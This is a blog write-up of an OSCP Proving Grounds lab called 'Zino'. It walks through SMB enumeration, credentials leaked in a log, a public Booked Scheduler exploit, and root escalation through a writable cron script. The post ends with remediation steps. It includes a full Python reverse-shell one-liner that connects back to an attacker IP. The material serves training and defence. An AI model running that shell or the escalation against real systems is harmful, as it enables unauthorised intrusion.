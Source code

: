 ```yaml
---
draft: false

title: 'Proving Grounds #1 - Zino'
date: '2023-11-28T00:55:24+00:00'
author: William

category:
    - Tech

tag:
    - Hacking

---
```

This was my first proving grounds lab of my OSCP. Took longer than I would have liked but I was able to pwn it in the end with a joyful fist pump and woop from my side. Any advice or comments on how I could improve this write-up would be appreciated.

#### Executive summary

The attacker was able to achieve privileged remote code execution on the target box. Issues found can be easily remediated by updating the software Booked Scheduler to V3.7.9 and restricting write permissions of a scheduled cron job.

#### Technical Findings

These are the steps I took to achieve privileged remote code execution in this lab.

Starting with a high-level scan of our target.  
![HackerImage](https://i.imgur.com/PzhTifh.png?resize=704%2C357&ssl=1#center)

Of these lets take a closer look at the smb ports  
![HackerImage](https://i.imgur.com/YU0ToTg.png?resize=760%2C532&ssl=1#center)
We see that guest is enabled on port 445. This combined with a quick enumeration of the shares using <span style="text-decoration: underline;">smbmap</span> we can log into our target using smbclient.  
![HackerImage](https://i.imgur.com/V1QmpMi.png?resize=609%2C279&ssl=1#center)

Here we find our first flag **local.txt** along with a bunch of log files.

50% DONE!!!

Of these auth.log and misc.log have some interesting contents  
![HackerImage](https://i.imgur.com/oEsCkHH.png?resize=903%2C84&ssl=1#center)

![HackerImage](https://i.imgur.com/uKg3ptK.png?resize=720%2C122&ssl=1#center)
Of these two misc.log is the most interesting as it has admin credentials in it. Ill be using this going forward.

With our initial Nmap scan we found a webserver hosted on port 8003. On closer inspection we find a login portal with the version of the hosting software listed at the bottom. After a quick lookup of this software we find the following.  
![HackerImage](https://i.imgur.com/cVRcvtR.png?resize=836%2C127&ssl=1#center)

Ill be using the seccond entry (50594.py) to exploit our target. This exploits the vulnerability CVE-2019-9581.  
![HackerImage](https://i.imgur.com/zkWQAXl.png?resize=586%2C111&ssl=1#center)With remote code execution on our host we can now leverage this into a reverse shell using a generic Python reverse shell script.

```
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.215",21));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")’
```

![HackerImage](https://i.imgur.com/iMu1dUe.png?resize=572%2C105&ssl=1#center)

SUCCESS. Now with the reverse shell I can start looking around for what we have access to… To save you the headache I’ll fast track to the fun part. I find an interesting entry in the cron jobs folder.  
![HackerImage](https://i.imgur.com/MGoJlKn.png?resize=807%2C384&ssl=1#center)
There right at the bottom, there is a Python script run by the cron job with root privileges. Looking at the file in question confirms that we are able to edit it.  
![HackerImage](https://i.imgur.com/hwPItPu.png?resize=705%2C38&ssl=1#center)

We write a Python script locally that will execute the generic reverse shell Python script we used earlier, but now because it will be executed in the root context we will get a root shell.

So we write the script and host it on our local HTTP server.  
![HackerImage](https://i.imgur.com/REwW9wj.png?resize=680%2C180&ssl=1#center)Fetch that puppy overwriting the cleanup.py file! And now we wait with a netcat listener.  
After a minute and a quick coffee break we come back to this beautiful sight  
![HackerImage](https://i.imgur.com/GJSys1g.png?resize=633%2C117&ssl=1#center)
SUCCESS!!!!!

The flag can be found at **cat /root/proof.txt**

Something to note is that you will run into issues if you try to use any ports other than those opened. It seems for this lab they closed all unnecessary ports in line with industry best practice.


#### Conclusion

How to fix this is quite simple. Here are 3 action times:

1. Update Booked Scheduler to 3.7.9 to prevent the initial foothold
2. Restrict write permissions on <span style="text-decoration: underline;">cleanup.py</span>
3. Ensure no user credentials are logged. And probably reroll admin and peter, using a more secure password this time ;D

All in all, this was a fun lab to start cutting my teeth on, don’t worry this is the first of many!
